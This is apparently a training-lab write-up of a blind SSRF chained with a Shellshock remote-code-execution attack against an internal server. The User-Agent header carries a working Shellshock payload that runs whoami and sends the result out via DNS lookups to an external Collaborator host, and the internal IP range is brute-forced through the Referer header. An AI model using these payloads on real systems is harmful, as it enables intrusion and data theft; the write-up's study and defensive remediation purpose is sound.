



**Blind SSRF to Internal Server + Shellshock RCE (Lab Solution)**

**Objective**

Exploit a blind Server-Side Request Forgery (SSRF) vulnerability combined with Shellshock to execute remote commands on an internal server and exfiltrate the OS username.

**Lab Environment**

- Vulnerable endpoint: Product page (e.g., /product?productId=)
- Internal target range: 192.168.0.X:8080
- Attack technique: Blind SSRF + Shellshock payload in User-Agent header
- Exfiltration method: DNS via Burp Collaborator

---

**Step 1 – Detecting Blind SSRF with Collaborator Everywhere**

After installing the Collaborator Everywhere extension and adding the lab domain to Burp’s scope, browsing the product page triggered an automatic out-of-band interaction.

The extension highlighted the suspicious request in red — indicating that the Referer header value is fetched server-side.

**[Image 1 – Burp Proxy showing red-highlighted request where Collaborator Everywhere detected the SSRF]**
  
---

**Step 2 – Sending to Intruder & Crafting the Attack**

I sent the request to Burp Intruder and modified two critical headers:

- Referer: http://192.168.0.1:8080 (last octet set as payload position)
- User-Agent: Replaced with the Shellshock payload containing my Collaborator subdomain

Shellshock payload used:

() { :; }; /usr/bin/nslookup $(whoami).UNIQUE-COLLABORATOR.oastify.com

The IP range was brute-forced from 1 to 255 using Numbers payload type with step 1.

**[Image 2 – Burp Intruder showing Referer with payload position, User-Agent with Shellshock, and Numbers settings 1–255]**
  
---

**Step 3 – Critical Finding: Single-Threaded Execution**

Initial parallel requests returned no DNS interactions. I discovered that the internal server processes requests asynchronously — only sequential (single-threaded) attacks worked.

After running the attack with default thread count = 1, I polled Collaborator and received the exfiltrated OS username inside a DNS query.

---

**Step 4 – Exfiltration Result**

The DNS interaction showed:

peter-vplVZ1.UNIQUE-COLLABORATOR.oastify.com

This confirms:
- Blind SSRF succeeded against 192.168.0.X:8080
- Shellshock executed on the internal server
- whoami output was peter-vplVZ1

**[Image 3 – Burp Collaborator tab showing DNS lookup with peter-vplVZ1 in the subdomain]**
  
---

**Lab Solved**

The correct OS username (peter-vplVZ1) was submitted, completing the challenge.

---

**Key Takeaways for Hiring Managers**

- Blind SSRF can be detected and exploited via out-of-band techniques
- Shellshock is still relevant in legacy internal systems
- DNS exfiltration is stealthy and effective for blind RCE
- Attack chaining (SSRF → Internal Server → Shellshock → DNS) shows advanced skills
- Single-threaded enumeration was required — understanding async behavior matters

---

**Tools Used**

- Burp Suite Professional
- Collaborator Everywhere extension
- Burp Intruder (Numbers payload)
- Burp Collaborator (DNS exfiltration)

---

**Remediation Advice (Defensive)**

- Patch Shellshock vulnerabilities in all internal servers
- Do not fetch URLs from user-controlled headers like Referer
- Restrict outbound DNS requests from internal hosts
- Monitor for () { patterns in HTTP headers
